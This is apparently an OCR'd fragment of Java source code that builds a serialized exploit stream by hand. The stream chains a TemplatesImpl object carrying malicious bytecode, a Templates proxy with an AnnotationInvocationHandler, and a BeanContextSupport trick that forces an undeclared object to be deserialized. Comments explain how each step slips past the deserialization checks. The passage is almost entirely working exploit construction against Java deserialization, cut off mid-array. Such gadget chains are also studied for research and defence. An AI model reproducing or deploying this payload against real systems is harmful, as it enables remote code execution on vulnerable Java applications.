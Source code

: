 ```java

                // (2) First item in LinkedHashSet
                templates, // TemplatesImpl instance with malicious bytecode

                // (3) Second item in LinkedHashSet
                // Templates Proxy with AIH handler
                TC_OBJECT,
                TC_PROXYCLASSDESC,          // proxy declaration
                1,                          // one interface
                Templates.class.getName(),  // the interface implemented by the proxy
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,
                Proxy.class.getName(),      // java.lang.Proxy class desc
                -2222568056686623797L,      // serialVersionUID
                SC_SERIALIZABLE,            // flags
                (short) 2,                  // field count
                (byte) 'L', "dummy", TC_STRING, "Ljava/lang/Object;", // dummy non-existent field
                (byte) 'L', "h", TC_STRING, "Ljava/lang/reflect/InvocationHandler;", // h field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (3) Field values
                // value for the dummy field <--- BeanContextSupport.
                // this field does not actually exist in the Proxy class, so after deserialization this object is ignored.
                // (4) BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
                BeanContextSupport.class.getName(),
                -4879613978649577204L,      // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 1,                  // field count
                (byte) 'I', "serializable", // serializable field, number of serializable children
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,               // super class
                BeanContextChildSupport.class.getName(),
                6328947014421475877L,
                SC_SERIALIZABLE,
                (short) 1,                  // field count
                (byte) 'L', "beanContextChildPeer", TC_STRING, "Ljava/beans/beancontext/BeanContextChild;",
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (4) Field values
                // beanContextChildPeer must point back to this BeanContextSupport for BeanContextSupport.readObject to go into BeanContextSupport.readChildren()
                TC_REFERENCE, baseWireHandle + 12,
                // serializable: one serializable child
                1,

                // now we add an extra object that is not declared, but that will be read/consumed by readObject
                // BeanContextSupport.readObject calls readChildren because we said we had one serializable child but it is not in the byte array
                // so the call to child = ois.readObject() will deserialize next object in the stream: the AnnotationInvocationHandler
                // At this point we enter the readObject of the aih that will throw an exception after deserializing its default objects

                // (5) AIH that will be deserialized as part of the BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
```